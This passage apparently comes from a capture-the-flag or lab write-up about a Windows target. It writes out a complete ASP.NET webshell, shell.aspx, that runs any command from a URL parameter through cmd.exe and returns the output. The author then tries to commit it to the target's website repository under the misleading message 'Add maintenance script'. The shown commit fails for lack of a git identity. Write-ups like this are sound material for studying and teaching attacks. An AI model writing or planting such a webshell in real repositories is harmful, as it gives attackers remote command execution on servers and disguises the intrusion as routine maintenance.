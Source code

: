 > *Check out this [link](https://graphite.dev/guides/git-clone-with-token#cloning-a-repository-using-a-personal-access-token) for more information about how to clone a repository using a personal access token.*

So probably this `website` is use the `port 80` as we see from the static web. <br>
&rarr; Here is the things, what we will do next?

We know that this machine is running on `Windows` so we can assume that if we commit a file that contain webshell, it will works. <br>
&rarr; But it is just a hypothesis, let's prove it.

### Webshell
We will craft a `shell.aspx` file that contain webshell.

```bash
└─$ cat shell.aspx 
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Diagnostics" %>
<script runat="server">
void Page_Load(object sender, EventArgs e)
{
    string cmd = Request.QueryString["cmd"];
    if (cmd != null)
    {
        Process p = new Process();
        p.StartInfo.FileName = "cmd.exe";
        p.StartInfo.Arguments = "/c " + cmd;
        p.StartInfo.UseShellExecute = false;
        p.StartInfo.RedirectStandardOutput = true;
        p.Start();
        string output = p.StandardOutput.ReadToEnd();
        p.WaitForExit();
        Response.Write("<pre>" + output + "</pre>");
    }
}
</script>
```

Let's commit this file to the `website` repo.

```bash
└─$ git add shell.aspx

└─$ git commit -m "Add maintenance script"
Author identity unknown

*** Please tell me who you are.

Run

  git config --global user.email "you@example.com"
  git config --global user.name "Your Name"

to set your account's default identity.
Omit --global to set the identity only in this repository.

fatal: empty ident name (for <kali@kali>) not allowed

└─$ git push origin main
Everything up-to-date
```
